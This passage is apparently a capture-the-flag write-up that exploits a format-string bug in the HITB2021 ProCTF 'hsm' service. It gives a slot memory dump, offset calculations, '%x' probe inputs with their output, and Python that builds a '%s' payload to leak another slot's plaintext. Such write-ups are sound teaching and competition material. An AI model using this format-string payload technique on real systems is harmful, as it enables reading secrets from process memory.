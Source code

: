 After decrypting encrypted `PLAINTEXT` at slot 0, and `PLAINTEXT_SLOT_1` at slot 1, we've got:
```
user@dell ~/HITB2021/final/git/proctf-2021/services/hsm/deploy/state $ hd slots.dump 
00000000  00 00 00 01 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000010  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000020  00 00 00 00 00 50 4c 41  49 4e 54 45 58 54 00 74  |.....PLAINTEXT.t|
00000030  5a 76 14 5b 0a c5 31 1a  75 f0 c1 66 06 15 9c 74  |Zv.[..1.u..f...t|
*
00000060  5a 76 14 5b 0a 00 00 00  00 00 02 00 40 02 f5 c4  |Zv.[........@...|
<SKIP>
000001a0  00 00 00 00 00 00 00 00  00 00 00 00 00 50 4c 41  |.............PLA|
000001b0  49 4e 54 45 58 54 5f 53  4c 4f 54 5f 31 00 70 f2  |INTEXT_SLOT_1.p.|
000001c0  70 dd 3a a8 48 3f e4 07  4c 02 33 80 09 e3 70 f2  |p.:.H?..L.3...p.|
*
000001e0  70 dd 3a a8 48 3f e4 07  4c 02 33 80 09 00 00 00  |p.:.H?..L.3.....|
```

So,
- `plaintext` offset inside `Slot` structure is `0x25 (decimal 37)`.
- `Slot` structure size is: `0x1ad - 0x25 = 0x188 (decimal 392)`

```
    slot0_offset = 0x4002f530
    slot_size = 392
    plaintext_offset = 4 + 33  # idx(4) + meta(33)
    read_offset = slot0_offset + slot_size * slot + plaintext_offset
```

Then we check that our input string lies on the stack (success!):
```
encrypt EECFA9507EC6FC7CF922CB605D43BA99E9E1380E933B022320B6654DF27A07AE78542164BBFB98FE7C7E3BB67522A4C5DA5725F902367102640B3C86DF876B5900000011 ABCD%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
73E01CB6DE8C1E0254F2CA7F872691B2820E58268F014489F2AD14B682CC707824BF813ECE1A4388AB0D54290E084E72DF30DF992BDDCF11E0617E5CF1C6417ED756032B1A2A97DD5D3345D12624D28AB36C65171A2A97DD5D3345D12624D28AB36C65171A2A97DD5D3345D12624D28AB36C40
```
```
decrypt 0 73E01CB6DE8C1E0254F2CA7F872691B2820E58268F014489F2AD14B682CC707824BF813ECE1A4388AB0D54290E084E72DF30DF992BDDCF11E0617E5CF1C6417ED756032B1A2A97DD5D3345D12624D28AB36C65171A2A97DD5D3345D12624D28AB36C65171A2A97DD5D3345D12624D28AB36C40
OK
```
```
getmeta 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD4002f6b804027c88c84027c88c4002f6b81140007994004007784040077840341414141414141414141414141414141414141414141414141414141414141414141424344257825                                                                                                                                                                   A B C D % x %
```

We see, that `ABCD` was interpreted as `%x`. Then we use `%s` as format, and put `read_offset` to `ABCD` location:

```
    read_offset_bytes = read_offset.to_bytes(4, byteorder="big")
    payload = b"910" + read_offset_bytes + b"%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x|%s"
```
